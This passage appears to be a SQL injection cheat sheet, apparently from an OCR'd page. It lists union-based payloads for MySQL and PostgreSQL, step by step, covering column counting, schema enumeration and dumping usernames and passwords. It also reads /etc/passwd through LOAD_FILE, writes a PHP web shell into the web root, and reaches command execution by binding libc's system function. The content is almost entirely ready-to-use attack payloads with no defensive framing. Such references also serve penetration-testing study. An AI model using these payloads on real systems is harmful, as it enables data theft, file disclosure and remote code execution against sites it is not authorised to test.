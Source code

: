 ```sql
' UNION SELECT NULL--
```

## Union-Based SQL Injection

### 1. Basic Union Injection
```sql
# Step 1: Determine number of columns
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
...
(Continue until error to find column count)

# Step 2: Find injectable columns
' UNION SELECT 1,2,3--
' UNION SELECT 1,2,3,4--
(Match number of columns from step 1)

# Step 3: Extract database information
' UNION SELECT 1,database(),version()--
' UNION SELECT 1,user(),@@hostname--
```

### 2. MySQL Union Injection
```sql
# Database enumeration
' UNION SELECT 1,schema_name,3 FROM information_schema.schemata--

# Table enumeration
' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema='database_name'--

# Column enumeration
' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'--

# Data extraction
' UNION SELECT 1,username,password FROM users--
' UNION SELECT 1,CONCAT(username,':',password),3 FROM users--

# File reading (if FILE privilege)
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3--

# File writing (if FILE privilege)
' UNION SELECT 1,'<?php system($_GET["cmd"]); ?>',3 INTO OUTFILE '/var/www/html/shell.php'--
```

### 3. PostgreSQL Union Injection
```sql
# Database enumeration
' UNION SELECT 1,datname,3 FROM pg_database--

# Table enumeration
' UNION SELECT 1,tablename,3 FROM pg_tables WHERE schemaname='public'--

# Column enumeration
' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'--

# Data extraction
' UNION SELECT 1,username,password FROM users--

# Command execution (if superuser)
'; CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'c' STRICT--
```